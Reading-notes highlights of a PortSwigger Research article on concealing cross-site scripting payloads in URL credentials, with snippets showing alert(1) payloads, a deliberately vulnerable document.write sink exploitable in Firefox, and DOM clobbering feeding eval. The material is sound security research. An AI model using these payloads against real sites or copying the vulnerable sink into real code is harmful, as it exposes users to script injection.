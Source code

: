 ```yaml
---
author: PortSwigger Research
aliases:
  - Concealing Payloads in URL Credentials
tags:
  - readwise/articles
url: https://portswigger.net/research/concealing-payloads-in-url-credentials
date: 2024-10-30
---
```

# Concealing Payloads in URL Credentials


[Johan Carlsson](https://x.com/joaxcar) discovered you could [conceal payloads inside the credentials part of the URL](https://x.com/joaxcar/status/1712858781405577370)
> [View Highlight](https://read.readwise.io/read/01jbeytcppp4rptab4gsga468j)



The first surprising thing to me was `document.URL` does not always match `location`.
```js
https://foo:bar@portswigger-labs.net
alert(location);//https://portswigger-labs.net/ 
alert(document.URL);//https://foo:bar@portswigger-labs.net/
```
> [View Highlight](https://read.readwise.io/read/01jbeytntd8t11nkaz9m9m5n6r)



What that means is you can use just URL inside an event grab the payload from the credentials:
 ```html
 https://alert(1)@portswigger-labs.net <img src onerror=alert(URL.slice(8,16))>
 ```
 
> [View Highlight](https://read.readwise.io/read/01jbeytz4vj7jxwhkjckymr6c3)



Shazzer discovered that **Firefox doesn't URL-encode single quotes**. This is particularly useful in [DOM-based vulnerabilities](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/DOM-based%20vulnerabilities.md) scenarios, if the site removes the query string and hash. As it makes vulnerabilities like this exploitable in Firefox:
 ```js
function getBase(url) {    
	return url.split(/[?#]/)[0]; 
} 
document.write(`<script>const url='${getBase(document.URL)}';<\/script>`);
```
 To exploit this you need to provide the payload in the credentials part on Firefox like this:
```
https://'-alert(1)-'@example.com
```
> [View Highlight](https://read.readwise.io/read/01jbeywm5asm7qp5t0a8gjksr9)



You can combine this with [DOM clobbering](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/DOM-based%20vulnerabilities.md#DOM%20clobbering) to give you control over objects with username or password properties. Note you can even supply a blank href which still enables control over username or password via the URL.
```html
https://user:pass@example.com 
<a href id=x>test</a> 
<script> 
eval(x.username)//user eval(x.password)//pass
</script>
```
> [View Highlight](https://read.readwise.io/read/01jbeyzgk8asxm80rt7pmd8036)

